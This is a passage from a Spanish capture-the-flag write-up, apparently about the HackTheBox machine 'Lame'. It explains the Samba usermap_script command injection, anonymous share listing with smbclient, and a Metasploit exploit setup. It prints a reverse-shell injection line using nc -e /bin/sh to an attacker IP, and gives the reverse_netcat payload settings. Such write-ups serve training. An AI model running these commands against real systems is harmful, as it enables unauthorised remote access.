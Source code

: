 - Samba lo mete en un comando del sistema como si fuera legítimo:

```python
/some/script ; nc 10.10.14.2 4444 -e /bin/sh ;
```

El sistema interpreta eso como:

“Ejecuta el script... y después abre una shell reversa hacia el atacante”.

## Listando los recursos disponibles en el servidor

```bash
smbclient -L 10.10.10.3 -N
```

🔐 Autenticación:

```bash
Anonymous login successful
```

Esto confirma que el servidor Samba permite acceso anónimo (sin usuario/contraseña).

Es clave para obtener archivos o shells si hay alguna share mal configurada.

![image.png](Lame%20by%20Zayrus%201e9cb9b1e60b80b29c45f839166a690a/image%204.png)

## 🧾 Explicación por partes:

- `smbclient`: es una herramienta de línea de comandos para interactuar con recursos compartidos SMB/CIFS (como lo haría un cliente de red de Windows).
- `L`: lista los recursos (shares) disponibles en el servidor.
- `10.10.10.3`: es la IP del servidor que estás escaneando (en este caso, la máquina "Lame").
- `N`: le dice a `smbclient` que **no use contraseña** (es decir, intente conexión **anónima**).

## 🚨 Uso de Metasploit

![image.png](Lame%20by%20Zayrus%201e9cb9b1e60b80b29c45f839166a690a/image%205.png)

### ✅ **1. Configuración del exploit**

En el módulo `multi/samba/usermap_script` configuraste:

- `RHOSTS`: `10.10.10.3` → IP de la máquina víctima (HackTheBox "Lame")
- `RPORT`: `139` → Puerto SMB (NetBIOS Session Service)
- `LHOST`: `10.10.16.69` → Tu IP (VPN tun0, desde donde escuchas la conexión)
- `LPORT`: `4444` → Puerto en el que estás esperando recibir una reverse shell

### ✅ **2. Payload utilizado**

Se usa `cmd/unix/reverse_netcat`, que es un **payload que ejecuta una reverse shell usando `nc` (netcat)**, desde la víctima hacia ti.

### ✅ 3. Ejecución del exploit
